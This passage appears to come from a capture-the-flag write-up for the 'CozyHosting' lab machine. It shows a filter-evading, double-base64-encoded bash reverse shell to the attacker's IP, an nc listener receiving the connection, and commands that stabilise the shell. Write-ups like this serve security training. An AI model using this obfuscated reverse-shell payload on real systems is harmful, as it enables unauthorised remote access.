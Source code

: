 ```bash
echo${IFS}WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNQzR4TkM0eU15OHhNVEV4SURBK0pqRUsK|ba''se''6''4${IFS}-''d|ba''se''64${IFS}-''d|b''a''s''h
```

![](/assets/obsidian/b2323d671a64d2ecf5538e6e094b4eb9.png)

```bash
nc -lvnp 1111
```

```bash
listening on [any] 1111 ...
connect to [10.10.14.23] from (UNKNOWN) [10.129.80.71] 59646
bash: cannot set terminal process group (997): Inappropriate ioctl for device
bash: no job control in this shell
app@cozyhosting:/app$ id
id
uid=1001(app) gid=1001(app) groups=1001(app)
```

## From app to josh

### psql credential in jar file

Stabilize shell

```bash
app@cozyhosting:/app$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
app@cozyhosting:/app$ ^Z
zsh: suspended  python3 /opt/sectools/c2/EzpzShell/ezpzShell.py 10.10.14.23 1111 bash

┌──(bravosec㉿fsociety)-[~/htb/CozyHosting]
└─$ stty raw -echo;fg
[1]  + continued  python3 /opt/sectools/c2/EzpzShell/ezpzShell.py 10.10.14.23 1111 bash

app@cozyhosting:/app$ export TERM=xterm
app@cozyhosting:/app$
```
